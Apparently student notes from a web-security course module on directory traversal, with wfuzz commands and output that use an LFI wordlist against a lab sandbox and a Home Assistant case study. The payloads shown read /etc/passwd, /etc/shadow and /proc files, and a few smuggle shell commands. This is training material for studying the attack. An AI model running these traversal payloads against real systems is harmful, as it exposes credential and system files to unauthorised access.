

# Module 10: Directory Traversal Attacks

## Directory Traversal Overview

### Accessing The Lab Machines

_Start the VPN, the VM, and add the ip to your hosts file._

## Understanding Suggestive Parameters

_A paremeter that hints at what it does or the types of data values it works with, typically vai its name._

Sample search request

```http
GET /search/Hello%20World! HTTP/1.1
```

_Sample file retrieval request_

```http
GET /admin/dashboard/manage/handler.aspx?file=ourFile.jpeg HTTP/1.1
```

_Sample Suggestive Parameters_

```http
?file=
?f=
/file/someFile

?location=
?l=
/location/someLocation

search=
s=
/search/someSearch

?data=
?d=
/data/someData

?download=
?d=
/download/someFileData
```

## Relative vs. Absolute Pathing

### Absolute Pathing

_The **full** path, i.e. /home/kali/Desktop_

_Example command utilizing absolute pathing_


```bash
kali@kali:~$ cd /etc/
                                                  
kali@kali:/etc$ pwd
/etc
                                           
kali@kali:/etc$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:kali,root
fax:x:21:
voice:x:22:
cdrom:x:24:kali
floppy:x:25:kali
tape:x:26:
sudo:x:27:kali
audio:x:29:pulse,kali
dip:x:30:kali
www-data:x:33:
backup:x:34:
... 
```


### Extra Mile I

_Try it in your own VM._

### Relative Pathing

The path to a target file/folder relative to your current working directory.

_Group File Read from a relative perspective in /etc/_


```bash
kali@kali:/etc$ pwd
/etc
                                    
kali@kali:/etc$ cat group     
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:kali,root
fax:x:21:
voice:x:22:
cdrom:x:24:kali
floppy:x:25:kali
tape:x:26:
sudo:x:27:kali
audio:x:29:pulse,kali
dip:x:30:kali
www-data:x:33:
backup:x:34:
```


_Group File Read with traversal strings_

```bash
kali@kali: $ pwd
/home/kali
                                    
kali@kali:/etc$ cat ../../etc/group     
root:x:0:
daemon:x:1:
...
```

### Extra Mile II

_Do it on your own VM._

## Directory Listing

### Parameter Analysis

<figure><figcaption><p>Path Variable</p></figcaption></figure>

_The value being /var/www/html/demo/css indicates we're likely dealing with absolute pathing. This also tells us the target is likely running Linux with a web-root of /var/www/html._

### Evidence of Directory Listing

_Test by replacin the path with ..%2F_

<figure><figcaption><p>First traversal string usage</p></figcaption></figure>

<figure><figcaption><p>Var Directory</p></figcaption></figure>

<figure><figcaption><p>Attempting to access /etc/passwd</p></figcaption></figure>

<figure><figcaption><p>Disclosure of a system-level user</p></figcaption></figure>

## Directory Traversal Sandbox

### Directory Traversal - Exploitation

<figure><figcaption><p>Directory Traversal Sandbox Landing Page</p></figcaption></figure>

<figure><figcaption><p>Directory Traversal Sandbox Absolute Pathing</p></figcaption></figure>

<figure><figcaption><p>Directory Traversal Sandbox - Relative Pathing</p></figcaption></figure>

### Wordlist/Payload Lists

_Automated attempts are only as good as the wordlist used — we'll be using seclists/Fuzzing/LFI/LFI-Jhaddix.txt._

### Fuzzing the Path Parameter

_Erroneous Output to be Filtered_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://dirTravSandbox:80/relativePathing.php?path=../../../../../../../../../../FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dirTravSandbox:80/relativePathing.php?path=../../../../../../../../../../FUZZ
Total requests: 914

=====================================================================
ID           Response   Lines    Word       Chars       Payload                   
=====================================================================
000000007:   200        3 L      10 W       81 Ch       "%0a/bin/cat%20/etc/passwd"
000000004:   200        3 L      10 W       81 Ch       "%00/etc/passwd%00"
000000014:   200        3 L      10 W       81 Ch       "/../../../../../../../../%2A"
000000005:   200        3 L      10 W       81 Ch       "%00../../../../../../etc/shadow"
000000002:   200        3 L      10 W       81 Ch       "\...\\\...\\\...\\\"
000000026:   200        3 L      19 W       125 Ch     "/admin/install.php"
000000020:   200        3 L      10 W       81 Ch       "..%2F..%2F..%2F%2F..%2F..%2F%2Fvar%2Fnamed"
000000022:   200        3 L      10 W       81 Ch       "..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow"
000000023:   200        3 L      10 W       81 Ch       "=3D ./... . .%2f.."
000000029:   200        3 L      10 W       81 Ch       "/apache2/logs/access.log"
000000021:   200        22 L     34 W       1007 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"
000000027:   200        3 L      10 W       81 Ch       "../../../administrator/inbox"
000000033:   200        3 L      10 W       81 Ch       "/apache/logs/access.log"
000000035:   200        3 L      10 W       81 Ch       "../../../../apache/logs/access.log"
000000036:   200        3 L      10 W       81 Ch       "../../../apache/logs/access.log"
000000037:   200        3 L      10 W       81 Ch       "../../apache/logs/access.log"
000000038:   200        3 L      10 W       81 Ch       "../apache/logs/access.log"
000000034:   200        3 L      10 W       81 Ch       "../../../../../apache/logs/access.log"
000000031:   200        3 L      10 W       81 Ch       "/apache2/logs/error.log"
000000028:   200        3 L      10 W       81 Ch       "/apache2/logs/access_log"
000000030:   200        3 L      10 W       81 Ch       "/apache2/logs/error_log"
000000032:   200        3 L      10 W       81 Ch       "/apache/logs/access_log"
000000039:   200        3 L      10 W       81 Ch       "/apache/logs/error_log"
000000041:   200        3 L      10 W       81 Ch       "../../../../../apache/logs/error.log"
000000045:   200        3 L      10 W       81 Ch       "../apache/logs/error.log"
000000052:   200        3 L      10 W       81 Ch       "/../../../../../../../../bin/id|"
000000051:   200        3 L      10 W       81 Ch       "/.bashrc"
000000050:   200        3 L      10 W       81 Ch       "/.bash_profile"
000000049:   200        3 L      10 W       81 Ch       "/.bash_history"   
...
```


_Enumerating out the target Operating System_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 --hh 81,125 http://dirTravSandbox/relativePathing.php?path=../../../../../../../../../../../../FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dirTravSandbox/relativePathing.php?path=../../../../../../../../../../../../FUZZ
Total requests: 914

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000021:   200        22 L     34 W       1007 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"
000000114:   200        230 L    1125 W     7305 Ch     "/etc/apache2/apache2.conf"
000000131:   200        42 L     49 W       527 Ch      "/etc/group"
000000128:   200        4 L      16 W       118 Ch      "/etc/fstab"
000000122:   200        9 L      37 W       502 Ch      "/etc/apt/sources.list"
000000198:   200        10 L     26 W       255 Ch      "/etc/hosts"
000000199:   200        10 L     26 W       255 Ch      "../../../../../../../../../../../../etc/hosts"
000000230:   200        5 L      15 W       108 Ch      "/etc/issue"
000000229:   200        358 L    1060 W     8262 Ch     "/etc/init.d/apache2"
000000239:   200        10 L     51 W       367 Ch      "/etc/motd"
. . .
. . .
000000243:   200        23 L     71 W       575 Ch      "/etc/nsswitch.conf"
000000269:   200        22 L     34 W       1007 Ch     "../../../../etc/passwd"
000000267:   200        22 L     34 W       1007 Ch     "../../../../../../etc/passwd"
000000272:   200        22 L     34 W       1007 Ch     "../etc/passwd"
000000276:   200        22 L     34 W       1007 Ch     "etc/passwd"
000000271:   200        22 L     34 W       1007 Ch     "../../etc/passwd"
000000270:   200        22 L     34 W       1007 Ch     "../../../etc/passwd"
000000268:   200        22 L     34 W       1007 Ch     "../../../../../etc/passwd"
000000304:   200        22 L     34 W       1007 Ch     "../../../../../../etc/passwd&=%3C%3C%3C%3C"
000000392:   200        5 L      14 W       119 Ch      "/etc/resolv.conf"
000000495:   200        5 L      25 W       237 Ch      "/proc/net/arp"
000000494:   200        29 L     166 W      3272 Ch     "/proc/mounts"
000000496:   200        9 L      98 W       774 Ch      "/proc/net/dev"
000000492:   200        4 L      15 W       105 Ch      "/proc/loadavg"
000000493:   200        53 L     156 W      1472 Ch     "/proc/meminfo"
000000490:   200        159 L    1018 W     5667 Ch     "/proc/cpuinfo"
000000491:   200        34 L     298 W      3097 Ch     "/proc/interrupts"
000000497:   200        6 L      43 W       465 Ch      "/proc/net/route"
000000499:   200        23 L     86 W       654 Ch      "/proc/partitions"
000000503:   200        4 L      31 W       225 Ch      "/proc/version"
000000502:   200        59 L     145 W      1116 Ch     "/proc/self/status"
000000500:   200        3 L      10 W       102 Ch      "/proc/self/cmdline"
000000498:   200        16 L     227 W      2031 Ch     "/proc/net/tcp"
000000692:   200        3 L      10 W       29573 Ch    "/var/log/lastlog"
```


## Case Study: Home Assistant

### Initial Application Assessment

<figure><figcaption><p>Login Form for Home Assistant</p></figcaption></figure>

<figure><figcaption><p>HTTP History Tab</p></figcaption></figure>

_Fuzzing the Web-Root and Analyzing the 404 Response size_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt http://homeassistant:8123/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://homeassistant:8123/FUZZ
Total requests: 4614

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000003:   404        0 L      3 W        14 Ch       ".bashrc"
000000009:   404        0 L      3 W        14 Ch       ".git/HEAD"
```


_Fuzzing the /fontawesome/ URI and analyzin the 404 response size_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt http://homeassistant:8123/fontawesome/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://homeassistant:8123/fontawesome/FUZZ
Total requests: 4614

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================
000000010:   404        0 L      0 W        0 Ch        ".history"
000000009:   404        0 L      0 W        0 Ch        ".git/HEAD"
```


### Exploitation

<figure><figcaption><p>Case Study /etc/passwd</p></figcaption></figure>

<figure><figcaption><p>Configuration file for Home Assistant</p></figcaption></figure>

<figure><figcaption><p>Configuration.yaml</p></figcaption></figure>

_Fuzzing the /fontawesome/ URI_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 http://homeassistant:8123/fontawesome/../../../../../../../../../../../../FUZZ         

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://homeassistant:8123/fontawesome/../../../../../../../../../../../../FUZZ
Total requests: 914

=====================================================================
ID           Response   Lines    Word       Chars       Payload                  
=====================================================================
000000128:   200        2 L      12 W       89 Ch       "/etc/fstab"
000000131:   200        49 L     49 W       725 Ch      "/etc/group"
000000198:   200        7 L      16 W       174 Ch      "/etc/hosts"       
000000199:   200        7 L      16 W       174 Ch      "../../../../../../../../../../../../etc/hosts"
000000230:   200        3 L      11 W       54 Ch       "/etc/issue"
000000242:   200        19 L     103 W      767 Ch      "/etc/netconfig"
000000239:   200        10 L     39 W       283 Ch      "/etc/motd"
000000247:   200        28 L     30 W       1228 Ch     "/../../../../../../../../../../etc/passwd"
000000259:   200        28 L     30 W       1228 Ch     "../../../../../../../../../../../../../../etc/passwd"
000000271:   200        28 L     30 W       1228 Ch     "../../etc/passwd"
000000272:   200        28 L     30 W       1228 Ch     "../etc/passwd"
000000270:   200        28 L     30 W       1228 Ch     "../../../etc/passwd"
000000268:   200        28 L     30 W       1228 Ch     "../../../../../etc/passwd"
000000269:   200        28 L     30 W       1228 Ch     "../../../../etc/passwd"
000000267:   200        28 L     30 W       1228 Ch     "../../../../../../etc/passwd"
000000266:   200        28 L     30 W       1228 Ch     "../../../../../../../etc/passwd"
000000265:   200        28 L     30 W       1228 Ch     "../../../../../../../../etc/passwd"
000000246:   200        28 L     30 W       1228 Ch     "/./././././././././././etc/passwd"
000000276:   200        28 L     30 W       1228 Ch     "etc/passwd"
000000401:   200        28 L     28 W       454 Ch      "/./././././././././././etc/shadow"
000000402:   200        28 L     28 W       454 Ch      "/../../../../../../../../../../etc/shadow"
000000392:   200        2 L      4 W        38 Ch       "/etc/resolv.conf"
000000405:   200        28 L     28 W       454 Ch      "/etc/shadow"
000000406:   200        28 L     28 W       454 Ch      "../../../../../../../../../../../../etc/shadow"
000000491:   200        31 L     287 W      3016 Ch     "/proc/interrupts"
000000493:   200        50 L     146 W      1391 Ch     "/proc/meminfo"
000000495:   200        2 L      15 W       156 Ch      "/proc/net/arp"
000000499:   200        20 L     76 W       573 Ch      "/proc/partitions"
000000490:   200        156 L    1008 W     5586 Ch     "/proc/cpuinfo"
000000492:   200        1 L      5 W        25 Ch       "/proc/loadavg"
000000503:   200        1 L      21 W       144 Ch      "/proc/version"
000000497:   200        3 L      33 W       384 Ch      "/proc/net/route"
000000501:   200        0 L      1 W        557 Ch      "/proc/self/environ"
000000498:   200        15 L     240 W      2250 Ch     "/proc/net/tcp"
000000502:   200        56 L     145 W      1063 Ch     "/proc/self/status"
000000500:   200        0 L      1 W        42 Ch       "/proc/self/cmdline"
000000494:   200        37 L     222 W      3760 Ch     "/proc/mounts"
000000496:   200        6 L      88 W       693 Ch      "/proc/net/dev"
```


### Extra Mile

_Do the lab yourself._

## Wrapping Up

_We did the thing._
